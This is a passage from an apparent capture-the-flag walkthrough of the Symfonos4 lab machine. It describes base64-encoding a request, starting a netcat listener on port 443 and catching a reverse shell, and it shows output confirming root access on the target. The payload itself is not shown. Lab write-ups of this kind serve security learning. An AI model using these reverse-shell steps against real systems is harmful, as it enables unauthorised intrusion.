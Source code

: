 ![](/assets/images/symfonos4/screenshot-12.png)

After we return to encode the data in base64, set up a netcat listener and finally sent the request.

![](/assets/images/symfonos4/screenshot-13.png)

As we can see we get a shell with root privileges.

```bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.138] 58344
uname -a
Linux symfonos4 4.19.0-5-686 #1 SMP Debian 4.19.37-5+deb10u2 (2019-08-08) i686 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
